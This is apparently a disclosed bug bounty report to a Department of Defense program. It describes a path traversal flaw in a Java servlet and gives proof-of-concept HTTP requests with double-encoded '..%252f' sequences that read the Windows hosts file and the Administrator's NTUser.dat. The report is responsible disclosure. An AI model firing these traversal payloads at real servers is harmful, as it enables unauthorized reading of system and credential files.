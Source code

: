 # [Critical] Full local fylesystem access (LFI/LFD) as admin via Path Traversal in the misconfigured Java servlet on the https://███/

## Report Details
- **Report ID**: 497771
- **URL**: https://hackerone.com/reports/497771
- **State**: Closed
- **Severity**: high
- **Submitted**: 2019-02-19T01:01:16.591Z
- **Disclosed**: 2019-10-04T15:18:01.359Z

## Reporter
- **Username**: sp1d3rs
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
##Description
Hello. I discovered a Path Traversal issue on the https://██████████/
I was able to turn it to the local file read, and after series of the test determined that it's possible to reach sensitive system files with administrator rights.

##POC
The next request will read the `c:/windows/System32/drivers/etc/hosts` as POC:
```
GET /gwtmain//..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fwindows/System32/drivers/etc/hosts HTTP/1.1
Host: ██████████
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close


```
██████████
In browser (Chrome):
```
https://███████/gwtmain//..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fwindows/System32/drivers/etc/hosts
```

Testing if we have admin rights:
```
GET /gwtmain//..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fUsers/Administrator/NTUser.dat HTTP/1.1
Host: ████
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close

```
The system will return 200 ok and respond with content of `Users/Administrator/NTUser.dat` which should be accessible only from administrator account.
██████
It proves the critical impact an possibility of the RCE, because we have high-privileged rights on the system.

##Suggested fix
Secure the vulnerable servlet.

## Impact

Remote attacker is able to read any file on the system partition, it can lead to the full compromise of the resource, in case attacker will reach sensitive files such as logs/credentials/registry tree.

## Attachments
No attachments
